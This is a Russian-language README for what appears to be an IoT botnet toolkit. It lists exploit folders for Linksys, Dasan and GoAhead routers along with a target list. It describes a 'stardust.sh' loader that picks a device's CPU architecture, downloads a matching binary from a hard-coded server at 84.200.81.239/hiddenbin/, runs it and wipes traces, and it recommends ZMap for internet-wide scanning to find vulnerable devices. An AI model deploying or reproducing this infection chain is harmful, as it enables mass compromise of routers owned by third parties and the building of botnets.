 ```
├── linksys/                 # Эксплойты для Linksys роутеров
│   ├── linksys.py          # Web-интерфейс эксплойт
│   └── targets.lst         # Список целей
├── dasan/                   # Эксплойты для Dasan роутеров
└── goahead/                 # Эксплойты для GoAhead серверов
```

## ⭐ Универсальный Загрузчик stardust.sh

### 🌟 Ключевое нововведение проекта!

`stardust.sh` - это умный универсальный загрузчик, который:

- **Автоматически определяет архитектуру** целевого устройства (ARM, MIPS, x86, PowerPC, etc.)
- **Загружает подходящий бинарник** с сервера `http://84.200.81.239/hiddenbin/`
- **Выполняет и очищает следы** автоматически
- **Упрощает управление** - больше не нужно поддерживать отдельные команды для каждого типа устройств

### Как работает:
```bash
# Автоматический вызов из эксплойта:
sh stardust.sh <семейство_устройства>

# Пример: sh stardust.sh netis
# Пример: sh stardust.sh huawei
```

### Поддерживаемые архитектуры:
- **ARM:** arm5, arm6, arm7
- **MIPS:** mips, mpsl (little-endian)  
- **x86:** i586, i686, x86_64
- **PowerPC:** ppc
- **SuperH:** sh4
- **ARC:** arc
- **Motorola:** m68k

## 📡 Автоматический поиск целей с ZMap

### 🚀 Что такое ZMap?
ZMap - сверхбыстрый сетевой сканер, способный просканировать весь интернет за 45 минут! Идеально подходит для автоматического поиска уязвимых IoT устройств вместо ручного создания списков IP.

### Установка ZMap:
```bash
# Ubuntu/Debian
sudo apt update && sudo apt install zmap

# Или из исходников для последней версии
sudo apt install build-essential cmake libgmp3-dev gengetopt libpcap-dev flex byacc libjson-c-dev
git clone https://github.com/zmap/zmap.git
cd zmap && cmake . && make -j4 && sudo make install
```
